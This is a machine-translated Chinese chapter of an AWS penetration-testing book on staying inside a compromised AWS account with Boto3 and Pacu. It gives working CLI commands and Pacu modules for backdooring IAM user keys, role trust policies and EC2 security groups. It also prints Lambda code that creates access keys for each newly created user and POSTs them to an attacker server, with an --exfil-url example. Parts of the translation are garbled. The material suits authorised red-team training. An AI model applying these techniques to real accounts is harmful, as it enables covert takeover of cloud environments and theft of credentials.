







# 使用 Boto3 和 Pacu 维护 AWS 持久性

在 AWS 环境中建立持久性允许您保持特权访问，即使在检测到您的主动攻击并关闭您访问环境的主要手段的情况下也是如此。不可能总是完全处于雷达之下，所以在我们被抓到的情况下，我们需要一个备用计划（或两个，或三个，或…）。理想情况下，如果我们需要再次访问环境，此备份计划可以秘密建立，也可以秘密执行。

本章中有许多与恶意软件、规避和持久性相关的技术和方法，但我们将坚持 AWS 中可能滥用的不同方法，而不一定是整个红色团队式渗透测试活动背后的方法。AWS 中的持久性技术与传统类型的持久性（如 Windows 服务器上的持久性）有很大不同，但这些技术（如我们所知）也可以应用于我们正在攻击的 AWS 环境中的任何服务器。

在本章中，我们将重点讨论实际 AWS 环境中的持久性，而不是环境中的服务器。这些类型的持久性包括后门用户凭据、后门角色信任关系、后门 EC2 安全组、后门 Lambda 函数等技术。

在本章中，我们将介绍以下主题：

*   后门用户
*   后门角色信任关系
*   后门 EC2 安全组
*   使用 Lambda 函数作为持久监视程序

# 后门用户

在我们开始之前，让我们来定义什么是后门。在本章的上下文中，它的意思几乎和它听起来的完全一样，因为我们正在打开一扇进入环境的后门，这样，如果前门关闭，我们仍然可以进去。在 AWS 中，后门可以是本章所涵盖的任意数量的东西，而前门将是我们访问环境的主要手段（即受损的 IAM 用户凭据）。我们希望我们的后门能够持续一段时间，在这种情况下，防御者会检测到我们的妥协，而被妥协的用户会被关闭，因为在这种情况下，我们仍然有希望通过后门进入。

正如我们在前几章中反复演示和使用的那样，可以为 IAM 用户设置访问密钥 ID 和允许他们访问 AWS API 的秘密访问密钥。最佳实践通常使用替代身份验证方法，例如**单点登录**（**SSO**），它授予对环境的临时联合访问权，但并不总是遵循最佳实践。我们将继续使用与前几章中使用的场景类似的场景，其中我们有一个 IAM 用户的凭据，`Test`。我们还将继续我们的想法，即通过我们在[第 10 章](10.html)、*中利用盗用密钥、Boto3 和 Pacu*对 AWS 帐户进行特权升级，我们的用户可以在管理员级别访问环境。

# 多个 IAM 用户访问密钥

帐户中的每个 IAM 用户都有两个访问密钥对的限制。我们的测试用户已经创建了一个，因此可以在达到限制之前再创建一个。考虑到我们一直使用的密钥是其他人的，而我们碰巧获得了对它们的访问，我们可以使用的一种简单的持久性形式就是为我们的用户创建第二组密钥。通过这样做，我们将为同一用户提供两组密钥：一组是我们泄露的，另一组是我们自己创建的。

不过，这有点太简单了，因为如果我们被发现，而防御方的某个人只是删除了我们的用户，这将一次性删除我们访问环境的两种方法。相反，我们可以针对环境中不同的特权用户为其创建后门密钥。

首先，我们希望查看帐户中存在哪些用户，因此我们将运行以下 AWS CLI 命令：

```
aws iam list-users --profile Test
```

此命令将返回有关帐户中每个 IAM 用户的一些标识信息。这些用户中的每一个都是我们后门密钥的可能目标，但是我们需要考虑已经拥有两组访问密钥的用户。如果一个用户已经有两个集合，而有人试图创建第三个集合，则会抛出一个 API 错误，这可能会对监听的防御者造成非常大的噪音，最终让我们被抓住。

我想以用户`Mike`为目标，他是从 AWS CLI 命令返回的用户之一。在尝试 t7o 向`Mike`添加访问密钥之前，我将使用以下命令检查以确保他没有两组访问密钥：

```
aws iam list-access-keys --user-name Mike --profile Test 
```

下面的屏幕截图显示了该命令的输出，`Mike`已经有两组访问键：



图 1：列出 Mike 的访问键表明他已经设置了两个

这意味着我们不应该以`Mike`为目标。这是因为尝试创建另一组密钥将失败，从而导致来自 AWS API 的错误。私刑辩护人可能会将该错误与您的恶意活动联系起来，最终将您抓获。

之前出现了另一个用户名为`Sarah`的用户，让我们检查一下她设置了多少访问密钥：

```
aws iam list-access-keys --user-name Sarah --profile Test
```

这一次，结果显示为空数组，表示没有为`Sarah`设置访问密钥：



图 2：当我们试图列出 Sarah 的

现在我们知道我们可以将`Sarah`作为持久性的目标，所以让我们运行以下命令来创建一对新密钥：

```
aws iam create-access-key --user-name Sarah --profile Test
```

响应应类似于以下屏幕截图：



图 3：属于 Sarah 的访问密钥 ID 和秘密访问密钥

现在我们可以使用返回的密钥访问与`Sarah`相关的任何权限。请记住，在您的初始访问用户拥有较少权限，但`iam:CreateAccessKey`是其中之一的情况下，除了持久性之外，此方法还可用于权限提升。

让我们使用 AWS CLI 在本地存储`Sarah`的凭据，以便在此期间不必担心它们。为此，我们可以运行以下命令：

```
aws configure --profile Sarah
```

然后，我们可以填写提示输入的值。类似地，我们可以使用`set_keys`命令将这些键添加到 Pacu 中。

# 和 Pacu 一起做

Pacu 有一个模块，可以为我们自动化整个过程。这个模块被称为`iam__backdoor_users_keys`模块，它自动化了我们刚刚经历的过程。要进行尝试，请在 Pacu 中运行以下命令：

```
run iam__backdoor_users_keys 
```

默认情况下，我们将获得一个可供选择的用户列表，但也可以在原始命令中提供用户名。

现在，当我们最初对环境的访问被发现时，我们就有了一个（希望是高度特权的）用户的备份凭据。如果需要，我们可以使用前面章节中的技术来枚举该用户的权限。

# 后门角色信任关系

IAM 角色是 AWS 不可分割的一部分。用最简单的术语来说，角色可以假定为某人/某物提供一组特定的权限，时间为一段临时时间（默认为 1 小时）。这个人或某物可以是个人、应用程序、AWS 服务、另一个 AWS 帐户，或者任何以编程方式访问 AWS 的东西。

# IAM 角色信任策略

IAM 角色有一个与其关联的文档，称为其信任策略。信任策略是一个 JSON 策略文档（例如 IAM 策略，如`ReadOnlyAccess`或`AdministratorAccess`），指定谁/什么可以担任该角色，以及在什么条件下允许或拒绝。允许 AWS EC2 服务权限承担特定角色的通用信任策略文档可能如下所示：

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "Service": "ec2.amazonaws.com"
            },
            "Action": "sts:AssumeRole"
        }
    ]
}
```

此策略允许 EC2 服务访问承担它所属的角色。可能使用此策略的场景是，将 IAM 角色添加到 EC2 实例配置文件，然后将其附加到 EC2 实例。然后，可以从实例中访问附加角色的临时凭据，EC2 服务将使用它访问任何需要访问的内容。

IAM 角色的一些功能非常适合美国攻击者，如下所示：

*   可以随意更新角色信任策略
*   角色信任策略可以提供对其他 AWS 帐户的访问

就建立持久性而言，这是完美的。这通常意味着，我们所需要做的就是更新目标帐户中特权角色的信任策略，以在该角色和我们自己的个人帐户之间创建信任关系。

在我们的示例场景中，我们创建了两个 AWS 帐户。其中一个（账号 ID`012345678912`）是我们自己的个人攻击者账号，这意味着我们通过 AWS 亲自注册。另一个（帐户 ID`111111111111`）是我们已泄露密钥的帐户。我们希望建立跨帐户持久性，以保证我们将来能够访问环境。这意味着，即使防御者检测到泄露，我们仍然可以通过跨帐户方法重新获得对环境的访问权，从而允许我们保持对目标环境的访问，而不会在过程中打开任何其他安全漏洞。

# 寻找合适的目标角色

建立这种持久性的第一步是找到一个合适的角色作为目标。并非所有角色都允许您更新其信任策略文档，这意味着我们不希望以这些角色为目标。它们通常是服务链接角色，是一种独特的 IAM 角色类型，直接链接到 AWS 服务（[https://docs.aws.amazon.com/IAM/latest/UserGuide/using-service-linked-roles.html](https://docs.aws.amazon.com/IAM/latest/UserGuide/using-service-linked-roles.html) ）。

可以通过几种不同的方式从 AWS web 控制台的 IAM 角色页面快速识别这些角色。首先，您可能会看到他们的名字以`AWSServiceRoleFor`开头，后面跟着他们所使用的 AWS 服务。另一个指示器位于角色列表的受信任实体列中；它会说类似于`AWS service:<service name>(Service-Linked role)`的内容。如果您看到`Service-Linked role`注释，则您知道您无法更新信任策略文档。最后，所有 AWS 服务链接角色将包括路径`/aws-service-role/`。不允许其他角色将该路径用于新角色：


图 4：测试帐户中的两个服务链接角色

不过，别上当！通过仅依赖名称来指示哪些角色是服务角色，您可能会被愚弄。完美的例子是下面的屏幕截图，其中显示了角色`AWSBatchServiceRole`：


名称`AWSBatchServiceRole`明确表示该角色是服务链接角色，对吗？错误的如果您注意到，`AWS service: batch`之后没有`(Service-Linked role)`注释。因此，这意味着我们可以更新此角色的信任策略，即使它听起来像是一个服务链接的角色。

在我们的测试环境中，我们发现了一个名为`Admin`的角色，它会立即向您发出`high privileged`作为攻击者的尖叫，因此我们将针对这个角色进行持久化。我们不想在目标环境中搞砸任何事情，因此我们希望将自己添加到信任策略中，而不是用我们自己的策略覆盖它，这可能会在环境中搞砸事情。如果我们碰巧删除了对某个 AWS 服务的访问，那么依赖于该访问的资源可能会开始失败，并且出于许多不同的原因，我们不希望出现这种情况。

从`iam:GetRole`和`iam:ListRoles`返回的数据应该已经在 JSON 响应对象的`AssumeRolePolicyDocument`键下包含我们想要的角色的活动信任策略文档。我们针对的管理员角色如下所示：

```
{
    "Path": "/",
    "RoleName": "Admin",
    "RoleId": "AROAJTZAUYV2TQBZ2LXUK",
    "Arn": "arn:aws:iam::111111111111:role/Admin",
    "CreateDate": "2018-11-06T18:48:08Z",
    "AssumeRolePolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Effect": "Allow",
                "Principal": {
                    "AWS": "arn:aws:iam::111111111111:root"
                },
                "Action": "sts:AssumeRole"
            }
        ]
    },
    "Description": "",
    "MaxSessionDuration": 3600
}
```

如果我们查看`AssumeRolePolicyDocument`>`Statement`下的值，我们可以看到目前有一个主体可以担任此角色，即**亚马逊资源名**（**ARN**）、`arn:aws:iam::111111111111:root`。此 ARN 指 ID 为`111111111111`的账户的根用户，基本上翻译为`any resource in account ID 111111111111`。其中包括根用户、IAM 用户和 IAM 角色。

# 添加我们的后门访问

我们现在要将攻击者拥有的帐户作为信任策略添加到此角色。首先，我们将角色信任策略中的`AssumeRolePolicyDocument`键的值保存到本地 JSON 文件（`trust-policy.json`）。要在不删除当前信任的情况下向我们自己的帐户添加信任，我们可以将`Principal``AWS`键的值从字符串转换为数组。此阵列将包括已就位的根 ARN 和攻击者帐户的根 ARN。`trust-policy.json`现在应该如下所示：

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Principal": {
                "AWS": [
                    "arn:aws:iam::111111111111:root",
                    "arn:aws:iam::012345678912:root"
                ]
            },
            "Action": "sts:AssumeRole"
        }
    ]
}
```

接下来，我们将使用 AWS CLI 使用此信任策略更新角色：

```
aws iam update-assume-role-policy --role-name Admin --policy-document file://trust-policy.json --profile Test 
```

如果一切都成功，则 AWS CLI 不应向控制台返回任何输出。否则，您将看到一个错误和一个关于出错原因的简短描述。如果我们想确认一切正常，我们可以使用 AWS CLI`get`该角色并再次查看信任策略文档：

```
aws iam get-role --role-name Admin --profile Test 
```

来自该命令的响应应该包括您刚刚上载的信任策略。

我们唯一需要做的另一件事是将角色的 ARN 保存在本地某个位置，这样我们就不会忘记它。在本例中，我们的目标角色的 ARN 为`arn:aws:iam::111111111111:role/Admin`。现在一切都完成了。

# 确认我们的访问

我们可以通过尝试从我们自己的攻击者帐户中`assume`我们的目标角色来测试我们新的持久性方法。已经有一个名为`MyPersonalUser`的本地 AWS CLI 配置文件，它是属于我个人 AWS 帐户的一组访问密钥。使用这些键，我应该能够运行以下命令：

```
aws sts assume-role --role-arn arn:aws:iam::111111111111:role/Admin --role-session-name PersistenceTest --profile MyPersonalUser 
```

我们只需要提供所需凭据的角色的 ARN 和角色会话名称，该名称可以是与返回的临时凭据关联的任意字符串值。如果一切按计划进行，AWS CLI 应做出如下响应：

```
{
    "Credentials": {
        "AccessKeyId": "ASIATE66IJ1KVECXRQRS",
        "SecretAccessKey": "hVhO4zr7gbrVBYS4oJZBTeJeKwTd1bPVWNZ9At7a",
        "SessionToken": "FQoGZXIvYXdzED0aAJslA+vx8iKMwQD0nSLzAaQ6mf4X0tuENPcN/Tccip/sR+aZ3g2KJ7PZs0Djb6859EpTBNfgXHi1OSWpb6mPAekZYadM4AwOBgjuVcgdoTk6U3wQAFoX8cOTa3vbXQtVzMovq2Yu1YLtL3LhcjoMJh2sgQUhxBQKIEbJZomK9Dnw3odQDG2c8roDFQiF0eSKPpX1cI31SpKkKdtHDignTBi2YcaHYFdSGHocoAu9q1WgXn9+JRIGMagYOhpDDGyXSG5rkndlZA9lefC0M7vI5BTldvmImgpbNgkkwi8jAL0HpB9NG2oa4r0vZ7qM9pVxoXwFTA1I8cyf6C+Vvwi5ty/3RaiZ1IffBQ==",
        "Expiration": "2018-11-06T20:23:05Z"
    },
    "AssumedRoleUser": {
        "AssumedRoleId": "AROAJTZAUYV2TQBZ2LXUK:PersistenceTest",
        "Arn": "arn:aws:sts::111111111111:assumed-role/Admin/PersistenceTest"
    }
}
```

完美的现在，我们所做的是使用我们自己的个人帐户凭据来检索目标 AWS 帐户的凭据。我们可以随时运行相同的`aws sts`API 调用，只要我们仍然是一个受信任的实体，并随时检索另一组临时凭证。

我们可以通过修改`~/.aws/credentials`文件使这些密钥可用于 AWS CLI。配置文件只需要额外的`aws_session_token`键，最终会将以下内容添加到我们的凭证文件中：

```
[PersistenceTest]
aws_access_key_id = ASIATE66IJ1KVECXRQRS
aws_secret_access_key = hVhO4zr7gbrVBYS4oJZBTeJeKwTd1bPVWNZ9At7a
aws_session_token = "FQoGZXIvYXdzED0aAJslA+vx8iKMwQD0nSLzAaQ6mf4X0tuENPcN/Tccip/sR+aZ3g2KJ7PZs0Djb6859EpTBNfgXHi1OSWpb6mPAekZYadM4AwOBgjuVcgdoTk6U3wQAFoX8cOTa3vbXQtVzMovq2Yu1YLtL3LhcjoMJh2sgQUhxBQKIEbJZomK9Dnw3odQDG2c8roDFQiF0eSKPpX1cI31SpKkKdtHDignTBi2YcaHYFdSGHocoAu9q1WgXn9+JRIGMagYOhpDDGyXSG5rkndlZA9lefC0M7vI5BTldvmImgpbNgkkwi8jAL0HpB9NG2oa4r0vZ7qM9pVxoXwFTA1I8cyf6C+Vvwi5ty/3RaiZ1IffBQ=="
```

然后，我们可以手动将这些凭据添加到 Pacu 中，也可以将它们从 AWS CLI 导入 Pacu。

# 使用 Pacu 实现自动化

就像前面关于后门用户的部分一样，这一切都可以很容易地自动化！除此之外，它已经通过`iam__backdoor_assume_role`Pacu 模块为您实现了自动化。这个模块接受三个不同的参数，但我们只使用其中的两个。`--role-names`参数接受要在我们的目标帐户中借壳的 IAM 角色列表，`--user-arns`参数接受要为每个目标角色添加信任关系的 ARN 列表。如果我们要复制刚刚经历的场景，这意味着我们将运行以下 Pacu 命令：

```
run iam__backdoor_assume_role --role-names Admin --user-arns arn:aws:iam::012345678912:root 
```

Pacu 将自动对`Admin`角色进行后门操作，并与我们提供的 ARN 建立信任关系。输出应如下所示：


图 5：运行 Pacu iam\u 后门\u 承担\u 角色模块

如果我们不知道我们想要扮演什么角色，我们可以省略`--role-names`参数。然后 Pacu 将收集帐户中的所有角色，并给我们一个列表供选择。

这里有一点重要的补充说明，您可能想知道，也可能不想知道，信任策略文档确实接受通配符，例如星号（*）字符！信任策略可以进行通配符，这样任何东西都可以承担这个角色，这实际上意味着任何东西。信任所有担任 IAM 角色的人从来都不是一个好主意，尤其是当你攻击一个帐户时。您不希望打开进入其他攻击者可能会滑入的环境的门。但是，对于在帐户中遇到类似情况的极少数情况，了解通配符角色信任策略的确切含义非常重要。

# 后门 EC2 安全组

EC2 安全组充当虚拟防火墙，管理一个或多个 EC2 实例的入站和出站流量规则。通常，您会发现到实例上特定端口的通信量被白名单上的其他 IP 范围或安全组。默认情况下拒绝所有访问，可以通过创建新规则授予访问权限。作为攻击者，我们不能绕过安全组规则，但这并不意味着我们的访问被完全阻止。

我们需要做的就是将我们自己的安全组规则添加到目标安全组中。理想情况下，这将是一条规则，允许从我们的 IP 地址/范围到安全组应用的实例上的一组端口的通信。您可能认为您只想将所有端口（`0`-`65535`和所有协议（TCP、UDP 等）的访问权列为白名单，但通常这是一个坏主意，因为存在一些非常基本的检测。允许安全组中的每个端口都有流量被认为是一种不好的做法，因此有许多工具可以提醒您注意这种安全组规则。

知道检测何时允许所有端口入站是典型的最佳实践检查，我们可以改进对公共端口子集的访问。这些端口可能只是一个较短的范围，例如`0`-`1024`、一个单一的公共端口，例如端口`80`、一个您知道它们在目标服务器上运行的服务端口，或者任何您想要的端口。

使用我们的老`Test`用户，假设我们发现了一个要攻击的 EC2 实例。这可以通过以下 AWS CLI 命令来描述当前区域中的 EC2 实例：

```
aws ec2 describe-instances --profile Test 
```

此命令返回相当多的信息，但重要的信息是我们目标的实例 ID`(i-08311909cfe8cff10`、我们目标的公共 IP（`2.3.4.5`）以及附加到它的安全组列表：

```
"SecurityGroups": [
    {
        "GroupName": "corp",
        "GroupId": "sg-0315cp741b51fr4d0"
    }
]
```

目标实例`corp`上有一个单独的组；我们可以猜测它代表公司。现在我们有了安全组的名称和 ID，但我们想看看它已经存在哪些规则。我们可以通过运行以下 AWS CLI 命令找到此信息：

```
aws ec2 describe-security-groups --group-ids sg-0315cp741b51fr4d0 --profile Test 
```

来自该命令的响应应显示已添加到安全组的入站和出站规则。响应的`IpPermissions`键包含入站流量规则，`IpPermissionsEgress`键包含出站流量规则。我们的目标`corp`安全组的入站流量规则如下：

```
"IpPermissions": [
    {
        "FromPort": 27017,
        "IpProtocol": "tcp",
        "IpRanges": [
            {
                "CidrIp": "10.0.0.1/24"
            }
        ],
        "Ipv6Ranges": [],
        "PrefixListIds": [],
       "ToPort": 27018,
        "UserIdGroupPairs": []
    }
]
```

我们正在展示的是，允许从 IP 范围`10.0.0.1/24`到范围`27017`到`27018`的任何端口进行入站 TCP 访问。也许你能认出那些港口！这些端口通常属于 MongoDB，一种 NoSQL 数据库。问题是，对内部 IP 范围的访问被列为白名单，这意味着我们已经需要在网络中找到立足点才能访问这些端口。我们将在这里添加后门安全组规则，以便直接访问 MongoDB。

为此，我们可以使用`ec2:AuthorizeSecurityGroupIngress`API。我们会说我们自己的攻击者 IP 地址是`1.1.1.1`，并且我们已经知道要打开哪些端口进行访问，因此我们可以运行以下 AWS CLI 命令：

```
aws ec2 authorize-security-group-ingress --group-id sg-0315cp741b51fr4d0 --protocol tcp --port  27017-27018 --cidr 1.1.1.1/32
```

如果一切正常，您将看不到此命令的任何输出，但如果出现问题，将出现错误。既然我们的后门规则已经成功应用，那么我们针对的安全组中的每个 EC2 实例现在都应该允许我们访问。请记住，可以指定`0.0.0.0/0`作为您的 IP 地址范围，它将允许访问任何 IP 地址。作为攻击者，我们永远不想这样做，因为这会打开其他攻击者可能发现和滥用的环境的大门，因此我们始终希望确保即使我们的后门访问规则也是细粒度的。

现在，我们可以尝试远程访问 MongoDB，以测试我们的后门规则是否成功，并希望能够访问以前私有的 MongoDB 服务器。下面的屏幕截图显示了我们在端口`27017`上连接到 Mongo 数据库的情况，其中服务器的一些错误配置对我们有利。从屏幕截图的概述部分可以看出，没有设置访问控制（身份验证），这意味着我们可以在不需要凭据的情况下读取和写入数据库。下一条消息显示 Mongo 进程以 root 用户身份运行，这意味着如果我们能够在 Mongo 服务器上执行任何类型的文件读取或代码执行，它将以 root 用户身份运行：



同样，就像前面的章节一样，Pacu 可以并且已经为您实现自动化！我们可以针对一个或多个安全组，但默认情况下，Pacu 将使用您指定的规则对当前区域中的所有组进行后门。为了复制我们刚刚经历的过程，我们可以运行以下 Pacu 命令（Pacu 使用安全组名称而不是 ID，因此我们提供了`corp`：

```
run ec2__backdoor_ec2_sec_groups --ip 1.1.1.1/32 --port-range 27017-27018 --protocol tcp --groups corp@us-west-2 
```

然后 Pacu 将我们的后门规则添加到目标安全组。不要忘记`--ip`的论点，因为你不想向世界开放任何东西（`0.0.0.0/0`）。以下屏幕截图显示了前面 Pacu 命令的输出：



图 6:Pacu 对公司安全组进行后门操作时的输出

然后，如果要在 AWS web 控制台中查看应用于该安全组的规则，您将看到如下内容：



图 7：目标安全组的后门规则

# 使用 Lambda 函数作为持久监视程序

现在，在帐户中创建我们的持久后门非常有用，但是，即使这些后门被检测到并从环境中删除，又该怎么办呢？我们可以使用 AWS Lambda 作为监视程序来监视帐户中的活动，并运行命令以响应特定事件，从而允许我们对防御者的行为作出反应。

基本上，AWS Lambda 是在 AWS 中运行无服务器代码的方式。简单地说，你上传你的代码（不管是 Node.js、Python 还是其他什么），然后为你的函数设置一个触发器，这样，当触发时，你的代码在云中执行，并对传入的数据进行处理。

我们攻击者可以在许多方面利用这一优势。我们可以使用它来提醒帐户中的活动：

*   该活动可能有助于我们利用该帐户
*   这可能意味着我们被防守队员发现了

使用 Lambda 函数可以做更多的事情，但这就是我们现在要关注的。

# 使用 Lambda 自动化凭证过滤

从上一节中的第一点开始，我们希望在可能值得利用的事件上触发 Lambda 函数。我们将把这一点与本章前面描述的持久化方法联系起来，因此对于后门 IAM 用户，可能值得利用的事件可能是创建新用户时。我们可以使用该事件（使用 CloudWatch 事件）触发 Lambda 函数，然后运行我们的代码，该代码设置为自动向该用户添加一组新的访问密钥，然后将这些凭据导出到我们指定的服务器。

这个场景是这样联系在一起的：

1.  攻击者（我们）在目标帐户中创建恶意 Lambda 函数
2.  每次创建新 IAM 用户时，攻击者都会创建一个触发器来运行 Lambda 函数
3.  攻击者在其控制的服务器上设置侦听器，该服务器将等待凭据
4.  2 天过去
5.  环境中的常规用户将创建新的 IAM 用户
6.  攻击者的 Lambda 函数被触发
7.  该函数向新创建的用户添加一组访问密钥
8.  该函数使用创建的凭据向攻击者的服务器发出 HTTP 请求

现在，攻击者只是袖手旁观，等待凭据流入其服务器。

这似乎是一个复杂的过程，但用最简单的术语来说，您可以将其视为建立持久性的持久方法。首先，我们已经了解了如何建立持久性，因此 Lambda 添加到等式中的所有内容都是能够连续地实现持久性。

对于触发事件的函数（例如正在创建的用户），必须创建 CloudWatch 事件规则。CloudWatch 事件规则基本上是说，如果我在环境中看到这种情况，就执行此操作。为了使 CloudWatch 事件规则正常工作，我们还需要在`us-east-1`区域启用 CloudTrail 日志记录。这是因为我们是由 IAM 事件（`iam:CreateUser`触发的，IAM 事件只传递给`us-east-1`CloudWatch 事件。在大多数情况下，将启用 CloudTrail 日志记录。最好的做法是在所有 AWS 区域启用它，如果 CloudTrail 未启用，那么您可能处于一个不太完善的环境中，其中还有其他问题需要关注。

# 使用 Pacu 部署我们的后门

创建后门 Lambda 函数、创建 CloudWatch 事件规则以及连接这两个规则的过程每次都需要手动完成，这对我们来说都是自动化的并集成到 Pacu 中。

我们将要研究的第一个 Pacu 模块称为`lambda__backdoor_new_users`，它基本上只是自动创建一个 Lambda 后门的过程，该后门为环境中新创建的用户打开并过滤凭据。如果我们查看 Pacu 模块使用的 Lambda 函数的源代码，我们会看到以下内容：

```
import boto3
from botocore.vendored import requests
def lambda_handler(event,context):
 if event['detail']['eventName']=='CreateUser':
 client=boto3.client('iam')
 try:
 response=client.create_access_key(UserName=event['detail']['requestParameters']['userName'])
 requests.post('POST_URL',data={"AKId":response['AccessKey']['AccessKeyId'],"SAK":response['AccessKey']['SecretAccessKey']})
 except:
 pass
 return
```

代码所做的只是检查触发它的事件是否是`iam:CreateUser`API 调用，如果是，它将尝试使用 Python`boto3`库为新创建的用户创建凭据。一旦成功，它会将这些凭证发送到攻击者的服务器，由`POST_URL`指示（Pacu 在启动函数之前替换该字符串）。

模块代码的其余部分设置所有必需的资源*或*删除它知道你进入帐户的任何后门，有点像清理模式。

为了接收我们正在创建的凭据，我们需要在我们自己的服务器上启动一个 HTTP 侦听器，因为凭据在主体中。之后，我们可以运行以下 Pacu 命令，并希望凭证开始涌入：

```
run lambda__backdoor_new_users --exfil-url http://attacker-server.com/
```

当 Pacu 命令完成时，目标帐户应该立即设置 Lambda 后门。一旦环境中的其他人创建了一个新的 IAM 用户，我们就会收到一个返回到 HTTP 侦听器的请求，请求中包含这些凭据。

以下屏幕截图显示了运行`lambda__backdoor_new_users`Pacu 模块的部分输出：



现在，下一个屏幕截图显示了有人在我们的目标环境中创建用户后发布到 HTTP 服务器的凭据：


我们可以看到访问密钥 ID 和秘密访问密钥都包含在这个 HTTP POST 请求的主体中。现在我们已经为用户收集了密钥，如果我们认为有必要，我们可以删除后门（您不应该在测试环境中留下任何剩余的东西！）。为此，我们可以运行以下 Pacu 命令：

```
run lambda__backdoor_new_users --cleanup
```

此命令应输出类似以下屏幕截图的内容，这表明它删除了我们以前创建的后门资源：


# 其他 Lambda Pacu 模块

除`lambda__backdoor_new_users`Pacu 模块外，还有两个模块：

*   `lambda__backdoor_new_sec_groups`
*   `lambda__backdoor_new_roles`

`lambda__backdoor_new_sec_groups`模块可用于借壳新的 EC2 安全组，因为它们是通过白名单列出我们自己的 IP 地址创建的，`lambda__backdoor_new_roles`模块将修改新创建角色的信任关系，以允许我们假设它们是跨帐户的，然后它将过滤角色的 ARN，以便我们可以继续收集临时凭证。这两个模块的工作方式与我们前面介绍的`lambda__backdoor_new_users`模块类似，它们将资源部署到 AWS 帐户中，该帐户根据事件触发，并且它们具有清除选项来删除这些资源。

